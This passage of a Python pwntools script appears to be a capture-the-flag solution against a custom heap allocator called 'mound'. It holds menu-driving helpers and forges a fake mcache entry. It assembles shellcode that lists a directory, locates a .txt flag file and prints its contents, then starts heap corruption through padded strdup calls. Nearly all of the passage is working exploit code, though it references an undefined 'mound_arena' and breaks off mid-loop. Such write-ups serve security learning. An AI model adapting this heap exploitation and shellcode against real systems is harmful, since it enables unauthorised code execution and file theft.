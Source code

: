    ```python
       r.sendlineafter('index: ', str(idx))
       r.sendafter('Pile: ', s)
   def edit(idx: int, s: bytes):
       choose(3)
       r.sendlineafter('index: ', str(idx))
       r.sendafter('pile: ', s)
   def free(idx: int):
       choose(4)
       r.sendlineafter('index: ', str(idx))
   
   def csize2midx(x:int): return (x>>4)-2
   def midx2csize(i:int): return (i+2)<<4
   def size2request(x:int): return x-0x10
   def request2size(x:int): return x+0x10
   def midx2rsize(i:int): return size2request(midx2csize(i))
   def r64bit(): return libc.rand()+(libc.rand()<<32) # emulate rand64bit
   def r64(): return randint(0, (1<<64)-1) # a separate, unrelated function to produce random numbers
   
   midxs = namedtuple('midb', 'first_alloc overflower incrementer fakechunk bugged got_overwriter entries')(1, 4, 0, 2, -1, 3, 0x10)
   mound_data = namedtuple('beef', 'base mcache fakechunk dents shellcode')(BEEF, BEEF+0x10, BEEF+0x100, BEEF+0x10000, BEEF+0x190)
   def fake_mcache_entry(sz: int, fd=0, rid=None, mcache=mound_data.mcache):
       if rid is None: rid = r64()
       return fit(rid, sz, mcache, fd)
   add(midxs.first_alloc, 0, fake_mcache_entry(sz=midx2csize(midxs.fakechunk)))
   add(midxs.overflower, 1, b'a') # chunk to be overflowed
   for _ in range(2): r64bit()
   
   O_DIRECTORY, FLAG_LEN = 0x10000, 100 # use reasonably long values here
   sc = '' # step 1: getting a directory listing
   sc+= shellcraft.pushstr('/pwn') # put "/pwn" on the stack
   sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY) # use openat in lieu of open. rsp because of pushstr
   sc+= 'mov QWORD PTR [{}], rax\n'.format(mound_data.base) # Store the resultant fd _somewhere_ accessible (mound_data.base)
   sc+= shellcraft.getdents64('rax', mound_data.dents, 0x10000) # use getdents to list directory
   # step 2: loop through the dents data to find the flag filename
   sc+=shellcraft.mov('rax', mound_data.dents)
   sc+= 'loop:\n'
   sc+= 'inc rax\n'
   sc+= 'cmp DWORD PTR [rax], {}\n'.format(hex(u32('.txt')))
   sc+= 'jne loop\n'
   # step 3: open the flag file, read to _somewhere_ (mound_arena.base), and write to stdout
   sc+= 'lea rbx, [rax-0x20]\n'
   sc+= 'mov rax, QWORD PTR [{}]\n'.format(mound_data.base)
   sc+= shellcraft.openat('rax', 'rbx', 0)
   sc+= shellcraft.read('rax', mound_arena.base, FLAG_LEN)
   sc+= shellcraft.write(1, mound_arena.base, FLAG_LEN)
   sc = asm(sc) # don't call asm() twice
   add(1+csize2midx(request2size(len(sc))), 8, sc) # dump shellcode somewhere in mound_data for later use
   
   for _ in range(3): r64bit() # There have been 5 rand64bit() calls so far; account for them.
   
   # The substance of the exploit: getting mcache->entries[-1] to point to a fake mchunk
   for midx,b in tqdm((i+midxs.entries,b) for i,b in enumerate(pack(mound_data.fakechunk)) if b):
       def pad(s: bytes): return s.rjust(0x17, b'a')
       strdup(pad(b''), 0xf) # Remember that maximally, user_sz = 8 (mod 0x10) for a given glibc heap chunk.
       strdup(pad(b''), 0xe) # A string has a trailing nul-byte, so maximally strlen(s) = 7 (mod 0x10)
   ```